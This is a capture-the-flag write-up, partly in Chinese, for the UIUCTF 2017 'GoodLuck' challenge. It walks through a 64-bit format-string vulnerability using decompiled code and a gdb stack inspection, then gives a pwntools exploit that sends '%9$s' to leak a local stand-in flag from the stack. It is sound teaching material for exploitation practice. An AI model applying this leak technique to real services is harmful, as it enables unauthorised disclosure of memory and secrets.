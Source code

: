 # UIUCTF 2017 GoodLuck

> UIUCTF 2017
>
> challenge name: GoodLuck
>
> file: `goodluck, flag.txt` 原题是远程的flag.txt，这里使用一个本地的代替
>
> files link: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2017-UIUCTF-pwn200-GoodLuck
>
> writeup writer: hexhex16@outlook.com
>
> refer writeup: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2017-UIUCTF-pwn200-GoodLuck
>

- 64bit format string
- 目的是获取远端的flag.txt的内容，由于条件限制，这里复现时使用的是本地文件



flag.txt 文件内容：

```
flag{11111111111111111}
```



# checksec

```bash
$ checksec --file=goodluck
RELRO          STACK CANARY  NX         PIE     RPATH     RUNPATH     Symbols     FORTIFY Fortified  Fortifiable FILE
Partial RELRO  Canary found  NX enabled No PIE  No RPATH  No RUNPATH  75) Symbols   No    0          1           goodluck
```

- 开启canary，NX 保护，部分 RELRO 保护

# IDA Analysis

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+3h] [rbp-3Dh]
  int i; // [rsp+4h] [rbp-3Ch]
  int j; // [rsp+4h] [rbp-3Ch]
  char *format; // [rsp+8h] [rbp-38h] BYREF
  _IO_FILE *fp; // [rsp+10h] [rbp-30h]
  char *v9; // [rsp+18h] [rbp-28h]
  char v10[24]; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 v11; // [rsp+38h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fp = fopen("flag.txt", "r");
  for ( i = 0; i <= 21; ++i )
    v10[i] = _IO_getc(fp);
  fclose(fp);
  v9 = v10;
  puts("what's the flag");
  fflush(_bss_start);
  format = 0LL;
  __isoc99_scanf("%ms", &format); // 用户输入点
  for ( j = 0; j <= 21; ++j )
  {
    v4 = format[j];
    if ( !v4 || v10[j] != v4 )
    {
      puts("You answered:");
      printf(format); // 漏洞利用点
      puts("\nBut that was totally wrong lol get rekt");
      fflush(_bss_start);
      return 0;
    }
  }
  printf("That's right, the flag is %s\n", v9);
  fflush(_bss_start);
  return 0;
}
```

# offset: `%9$n`

```assembly
gef➤  b printf
Breakpoint 1 at 0x400640
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/2017-UIUCTF-pwn200-GoodLuck/goodluck 
what's the flag
123456
You answered:
Breakpoint 1, __printf (format=0x602830 "123456") at printf.c:28
28  printf.c: 没有那个文件或目录.
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
   0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
   0x7ffff7a627fe <fprintf+142>    ret    
   0x7ffff7a627ff                  nop    
 → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
   0x7ffff7a62807 <printf+7>       test   al, al
   0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
   0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
───────────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb08', 'l8']
8
0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8    ← $rsp
0x00007fffffffdb10│+0x08: 0x0000000031000001
0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
0x00007fffffffdb30│+0x28: "flag{11111111111111111"
0x00007fffffffdb38│+0x30: "11111111111111"
0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
──────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
[#1] 0x400890 → Name: main()
```

- 64bit Linux前6个参数在对应寄存器中，而分析栈可知flag在栈上的偏移为5，去除RA，则flag为第4个。fmt str存储在RDI寄存器中，是第一个参数，寄存器总共传递了6个参数，故flag相对于fmt str的距离为 `4+6-1=9`。故输入 `%9$s` 即可得到 flag 的内容
- 另外可以使用pwdgdb( https://github.com/scwuaptx/Pwngdb ) 中的fmtarg判断某个参数的偏移

```
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```





# exploit

```python
from pwn import *
context.log_level = "DEBUG"
goodluck = ELF('./goodluck')
sh = process('./goodluck')
payload = b"%9$s"
print(payload)
# gdb.attach(sh)
sh.sendline(payload)
print(sh.recv())
sh.interactive()
```



